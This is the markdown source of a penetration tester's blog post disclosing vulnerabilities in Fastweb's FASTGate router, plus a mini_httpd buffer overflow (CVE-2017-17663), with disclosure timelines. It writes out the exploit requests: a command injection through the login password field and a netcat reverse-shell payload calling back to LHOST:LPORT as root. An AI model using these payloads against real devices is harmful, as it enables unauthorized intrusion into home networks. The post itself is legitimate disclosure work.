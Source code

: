 ```yaml
---
layout: post
title:  "Hacking into a FASTGate router with a command injection (and a bunch of other vulnerabilities)"
subtitle: "Missing authentication, command injection in login page, buffer overflow on the web-server. Is this real life?"
date:   2018-10-13 22:14:42 +0100
author: "santoru"
visible: 1
comments: true
---
```

 * Table of Contents
{:toc}

This blog post describes how I found a couple of vulnerabilities in the FASTGate modem/router provided by Fastweb, an Italian telecommunication company, to its clients. Thanks to these vulnerabilities I was able to bypass the authentication layer as well as execute arbitrary code via command injection and get a reverse shell back to the router.
All vulnerabilities have been disclosed to Fastweb and are fixed in newer versions of the firmware.

## FASTGate: the latest generation modem from Fastweb
Fastweb[^1] is an Italian telecommunications company that provides internet services. Since around march 2017 the company started to ship a new modem to its client: the FASTGate[^2].
Working as a penetration tester, and having the possibility to test it out, I started to analyze its web interface in order to find some vulnerabilities that could give me some unintended access to it. Goal of the night: popping up a shell!\ 
First step was to set up Burp Suite as a proxy and navigate a bit through the webpages to save some request and response.
The first screen I got was the login panel, as shown in figure 1.

{% include image.html url="img/fastgate/login.png" description="Figure 1 - Login panel" %}

### Broken authentication layer
I logged in and started to browse some pages and execute actions in order to understand how requests were handled. The first thing I noticed was that the login request did not return any cookie nor any token to the client and this made me suspicious: did they implement some authentication at all? \
They didn't.

What I noticed was that the web application was simply sending AJAX requests to a cgi binary, called `status.cgi`, using a parameter called `nvget` to specify the action.
For example, the following GET request was enough to list all devices connected to the router, even in the past, with their assigned IP, their MAC address and their hostname:
```
GET http://192.168.1.254/status.cgi?nvget=pc_list
```
Just to have a nice output to show, I developed a python script that parses the json response and display it:

{% include image.html url="img/fastgate/userenum.png" description="Figure 2 - Devices enumeration" %}

### Unauthenticated command injection in login page
With this trivial _authentication bypass_ via the `status.cgi` binary, I went back to the login request and started to manually fuzz both the username and password fields. After few tests I noticed that the response of the server, after putting a single quotation mark into the password field, printed an interesting line:
```
HTTP/1.0 200 OK
sh: syntax error: unterminated quoted string
Content-type: text/html
```

Uhm.. what? Am I dreaming? Is my controlled input really used to execute a shell command with no sanitization at all?
I wanted to see if I could actually run some commands, so I tried executing `ping` which is usually a command installed on any distribution:
```
GET /status.cgi?_=1512070412178&cmd=3&nvget=login_confirm&password='$(ping)'&remember_me=1&username=admin HTTP/1.1
```
The response was the confirmation I was looking for:
{% include image.html url="img/fastgate/ping.png" description="Figure 3 - Ping command" %}


As shown, I can successfully send arbitrary command by adding to the password input the text ```'$(`command`)'```.
The impact of this vulnerability is full code execution on the router, but it's not clear what privileges I'm running with, having a shell to quickly interact with the router would be ideal!

#### Getting the reverse shell
The command execution is cool, but can we go further? Can we get a real shell into the system? Of course we can! After some enumeration done via the command injection, I noticed that the router shipped several `netcat` binaries, one of which was luckily compiled with support to the `-e` parameter that, quoting the man page, `execute external program after accepting a connection or making connection`.
Let's use this `nc` binary to run a reverse shell:
```
GET /status.cgi?cmd=3&nvget=login_confirm&password=AA'$(`/statusapi/usr/bin/nc%20LHOST%20LPORT%20-e%20/bin/bash`)AAremember_me=1&username=admin HTTP/1.1
```
This was enough to get a full reverse shell into the system, and guess what? The process is running as `root` so we get full access to the device. 

{% include image.html url="img/fastgate/poc.png" description="Figure 4 - Exploit executed to get a shell" %}


## Conclusions
For documentation purpose, the vulnerable software version that I tested is the `v1.0.1b`, with firmware version `0.00.47_FW_200_Askey2017-05-17 17:31:59`.\
It must be noted that in order to exploit the vulnerability the attacker must be authenticated to the Wi-Fi network, as the admin interface is exposed on the internal network.

{% include image.html url="img/fastgate/version.png" description="Figure 5 - Vulnerable version" %}


The communication with Fastweb didn't go very smooth. I tried to contact them multiple time to report this vulnerability but after an initial ack they stopped any communication with me.
Few weeks after my emails, they released a new firmware version that addressed most of the vulnerabilities:
- Login request now returns a session token that it is used to authenticate all requests to `status.cgi`, so it seems that they fixed the trivial "bypass".
- They initially added a CSRF protection by setting a cookie called `XSRF-TOKEN`: when sending a request, the web application send both the cookie and a `X-XSRF-TOKEN` header with the same value. There's no actual validation on the token value, no matter what the user decide to sent via these two headers, if the cookie matches the token value, the server will accept it.
- The command injection was still present in a bunch of updates, but was eventually fixed.

At the time, they didn't have any responsible disclosure program nor any specific security contact, but they did create one shortly after my first email. The Responsible Disclosure[^3] webpage they created has an Hall-of-Fame, but I was not mentioned there.


## Bonus: mini\_httpd v1.27 / thttpd v2.27 buffer overflow
One of the first things I noticed reading the response from the router was the `Server` header: `mini_httpd/1.27 07Mar2017`.\
According to the developer's website of `mini_httpd`[^4], it seemed to be the latest available version at the time and I couldn't find any public information about known vulnerabilities on it.

Since the source code was available, I started to do some analysis and I noticed a trivial buffer overflow in the `htpasswd.c` file, which turned out to be a custom and simplified version of the original _htpasswd_ utility developed for the Apache HTTP Server and used to`'create and update the flat-files used to store usernames and password for basic authentication of HTTP users`.\
The simplified version developed by ACME Laboratories had a buffer overflow vulnerability since the username parameter provided through the command line interface was copied into a buffer without any bound check. The vulnerability could be exploited to execute malicious payloads if the utility can be used remotely to set up, for example, an account: In this case an attacker can craft an exploit and gain code execution into the vulnerable system.\
After disclosing the vulnerability to the maintainer of the web-server an update that fixed the vulnerability was released through the developer's website.

### Disclosure timeline of the Buffer Overflow
- 01 December 2017 - Contacted the developer to ask how to report security findings
- 12 December 2017 - Sent the details of the vulnerability to the developer
- 13 December 2017 - Developer acknowledged the vulnerability
- 13 December 2017 - CVE assigned: _CVE-2017-17663_
- 04 February 2018 - Update released for mini\_httpd & thttpd and [advisory published](https://acme.com/updates/archive/199.html) for the vulnerability.

---

## Footnotes
[^1]: [Fastweb S.p.A.](https://www.fastweb.it/)
[^2]: [FASTGate](https://www.fastweb.it/myfastweb/assistenza/guide/FASTGate/)
[^3]: [Fastweb Responsible Disclosure](https://www.fastweb.it/corporate/responsible-disclosure/)
[^4]: [mini_httpd - small HTTP server](https://acme.com/software/mini_httpd/)